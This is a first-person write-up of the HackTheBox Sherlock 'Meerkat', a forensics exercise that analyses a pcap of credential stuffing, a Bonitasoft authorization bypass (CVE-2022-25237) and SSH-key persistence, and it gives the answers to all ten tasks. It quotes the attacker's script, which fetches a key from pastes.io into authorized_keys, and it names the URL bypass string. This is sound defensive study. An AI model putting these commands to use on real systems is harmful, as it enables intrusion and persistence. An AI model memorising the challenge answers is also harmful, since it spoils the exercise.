

--- 
date: 2025-10-15T23:12:45+03:00 
title: Meerkat (HTB Sherlock Writeup)
description: ""
tags: ["htb", "sherlocks"]
--- 

First of all we download the files, we have "meerkat.pcap" and "meerkat-alerts.json".

For now we are going to review the .pcap with Wireshark and the JSON file with JSONViewer (https://jsonviewer.stack.hu/).

Having a quick look, Meerkat is a Suricata, which is giving us a clue that the JSON log might be the lof of the Suricata IPS/IDS system.

Reviewing the JSON file, we find two entries that highlight from the rest, the number 13 and 27.


While checking the meerkat.pcap file we can notice multiple RST and ACK, with high acknowledgemente numbers, coming from 172.31.6.44 to 156.146.62.213. This looks like some kind of scan.

---
<h2>Task 1</h2>

<h4>We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?</h4>

If we filter by http, we can appreciate that there are multiple login attempts at /bonita/loginservice. Looking for this path at google we'll find the Bonitasoft forum.

Answer: `Bonitasoft`.

---
<h2>Task 2</h2>

<h4>We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?</h4>

Taking a closer look at the different POST we can see really "specific" usernames and passwords, which are both changing on each try. This credentials are probably coming from leaked credentials and not lists. This kind of brute forcing is called Credential Stuffing.


Answer: `Credential Stuffing`.

---
<h2>Task 3</h2>

<h4>Does the vulnerability exploited have a CVE assigned - and if so, which one?</h4>

Checking at the different http requests we can find a successful login, leading to a HTTP 204 code.
 "username=seb.broom%40forela.co.uk&password=g0vernm3nt&_l=en"


This successful request is apparently trying to upload a file to /bonita/API/pageUpload with the name rce_api_extension.zip

Unfortunately, this is not only a try, because the attacker was able to upload the file, receiving a HTTP 200 code. After this, the attacker is able to execute remote code (RCE), giving him access as root on the vulnerable machine.


With this information, we'll look at https://www.cve.org/ for RCE vulnerabilities at Bonitasoft. 


Having a quick look at the first description given, at the third one, CVE-2022-25237 we can see some text we've seen before at wireshark, the ";i18ntranslation or /../i18ntranslation/".


By the description, appending it users with no privileges can access privileged API endpoints. This can lead to remote code execution by abusing the privileged API actions, as we can see that happened.

Answer: `CVE-2022-25237`

---
<h2>Task 4</h2>

<h4>Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?</h4>

Answer: `i18ntranslation`

---
<h2>Task 5</h2>

<h4>How many combinations of usernames and passwords were used in the credential stuffing attack?</h4>

For this, we'll filter in wireshark http.request.method == "POST" && http.request.uri == "/bonita/loginservice"

This filter is displaying 118 packets, but there are some credentials that are repeated, so we'll need to tune it a little bit more.

For this, we'll use tshark instead of wireshark.

```
tshark -r meerkat.pcap \
  -Y 'http.request.method=="POST" && http.request.uri=="/bonita/loginservice"' \
  -T fields -e http.file_data \
| xxd -r -p \
| grep -oE 'username=[^&]*&password=[^&]*' \
| sed -E 's/username=([^&]*)&password=([^&]*)/\1\t\2/' \
| sort -u  
```

This command will allow us to extract the post body, then decode it from hext to raw text, isolate the username and password, then display it with proper format and deduplicate.


To this command, we can append  ```| wc -l```, giving us a count of lines, in this case 57. I tried this number and it was not the right answer, then I saw install install at the credentials, and tried leaving this one outside, which worked.

Answer: `56`

---

<h2>Task 6</h2>

<h4>Which username and password combination was successful?</h4>

As said before "username=seb.broom%40forela.co.uk&password=g0vernm3nt&_l=en" was the successful request.

Being %40 the character @, the username was seb.broom@forela.co.uk and the password g0vernm3nt.

Answer: `seb.broom@forela.co.uk:g0vernm3nt`

---

<h2>Task 7</h2>

<h4>If any, which text sharing site did the attacker utilise?</h4>

From our previous quick look at the .json file, we saw two entries that were different than the rest, having the pastes.io url. I didn't know this site, but after a quick look we can confirm that is a text sharing site.

Answer: `pastes.io`

---
<h2>Task 8</h2>

<h4>Please provide the filename of the public key used by the attacker to gain persistence on our host.</h4>


Following the HTTP stream of the RCE attack, we see the attacker executing wget to the pastes.io site https://pastes.io/raw/bx5gcr0et8 

To access the site, we'll try first using https://cachedview.com/ 

In this case, there's a cached version of the website from 23rd of March from 2023. The text contained is:
```
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

Answer: `hffgra4unv`

---
Task 9

<h4>Can you confirm the file modified by the attacker to gain persistence?</h4>

Answer: `/home/ubuntu/.ssh/authorized_keys`

---
<h2>Task 10</h2>

<h4>Can you confirm the MITRE technique ID of this type of persistence mechanism?</h4>

For this, we'll go to Mitre ATT&CK and check at persistence, where SSH Authorized Keys Account Manipulation has the ID T1098.004.

https://attack.mitre.org/tactics/TA0003/
https://attack.mitre.org/techniques/T1098/004/

Answer: `T1098.004`

---



This Sherlock is the first writeup I'm doing and even if overwall the machine was easy, it was interesting to document the process.

From the defensive point of view, there should be some countermeasures against nmap scans like the one that happened during the attack.

Suricata was installed and giving alerts (not really specific), but not properly configured to contain and or block the requests via firewall.

It's also important to keep the software updated to avoid vulnerabilities as the CVE used to RCE, which was fixed in posterior versions.

https://rhinosecuritylabs.com/application-security/cve-2022-25237-bonitasoft-authorization-bypass/